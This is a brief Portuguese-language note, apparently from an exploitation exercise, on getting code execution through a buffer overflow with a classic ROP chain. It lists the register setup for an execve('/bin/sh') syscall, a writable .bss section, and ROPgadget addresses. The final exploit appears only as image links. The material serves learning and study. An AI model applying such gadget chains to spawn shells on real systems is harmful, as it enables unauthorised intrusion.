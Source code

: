 RCE via Buffer overflow através de ROP clássico

Pegando gadgets com ROPgadget

![](/Screenshots/Pasted%20image%2020220318121603.png)

Para chamar execve("/bin/sh"):

```
EAX = 11 (0xB em hex) – número da syscall do execve
EBX = Endereço de memória da string "/bin/sh"
ECX = Endereço de um ponteiro para a string string "/bin/sh"
EDX = Null
```

Seção com permissão de escrita:

`[23] .bss NOBITS 080e62c0 09d2b8 000d1c 00 WA 0   0 32`

Gadgets úteis obtidos:

```
0x08093990 : mov eax, 7 ; ret
0x08093900 : add eax, 1 ; ret
0x080938f7 : add eax, 2 ; ret
0x08093910 : add eax, 3 ; ret

0x0804fb90 : xor eax, eax ; ret
0x080b074a : pop eax ; ret
0x08049022 : pop ebx ; ret
0x08049e39 : pop ecx ; ret
0x080583c9 : pop edx ; pop ebx ; ret
0x080b06ea : push eax ; ret
0x0806ca36 : xchg eax, edx ; ret
0x08055e3e : mov eax, edx ; ret
0x0809e5d8 : mov dword ptr [eax], edx ; ret
0x08059102 : mov dword ptr [edx], eax ; ret  	//write to memory
0x0808f8f8 : mov dword ptr [eax + 0x20], ecx ; ret
0x0804a3d2 int 0x80
0x08071650 : int 0x80 ; ret
```

Exploit feito com os gadgets:

![](/Screenshots/Pasted%20image%2020220318121649.png)

![](/Screenshots/Pasted%20image%2020220318121718.png)

